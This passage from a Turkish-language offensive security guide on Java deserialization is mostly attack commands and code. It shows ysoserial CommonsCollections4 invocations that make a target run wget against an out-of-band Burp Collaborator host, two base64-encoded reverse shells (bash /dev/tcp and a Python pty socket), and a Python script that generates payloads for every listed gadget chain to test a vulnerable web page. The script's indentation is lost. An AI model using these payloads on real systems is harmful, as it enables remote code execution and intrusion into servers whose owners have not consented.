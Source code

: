 ```bash
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```
**java.lang.Runtime.exec()** için bir payload oluştururken yürütmenin çıktısını yönlendirmek için ">" veya "|" gibi **özel karakterleri kullanamazsınız**, komut çalıştırmak için "$()"'ı veya bir komuta boşluklarla ayrılmış **argümanları geçiremezsiniz** (örneğin `echo -n "hello world"` yapabilirsiniz ama `python2 -c 'print "Hello world"'` yapamazsınız). Payload'ı doğru şekilde encode etmek için [use this webpage](http://www.jackson-t.ca/runtime-exec-payloads.html) kullanabilirsiniz.

Aşağıdaki script'i kullanarak Windows ve Linux için **all the possible code execution** payload'larının tamamını oluşturup zafiyetli web sayfasında test edebilirsiniz:
```python
import os
import base64

# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
for payload in payloads:
final = cmd.replace('REPLACE', payload)
print 'Generating ' + payload + ' for ' + name + '...'
command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
result = command.read()
command.close()
encoded = base64.b64encode(result)
if encoded != "":
open(name + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```
#### serialkillerbypassgadgets
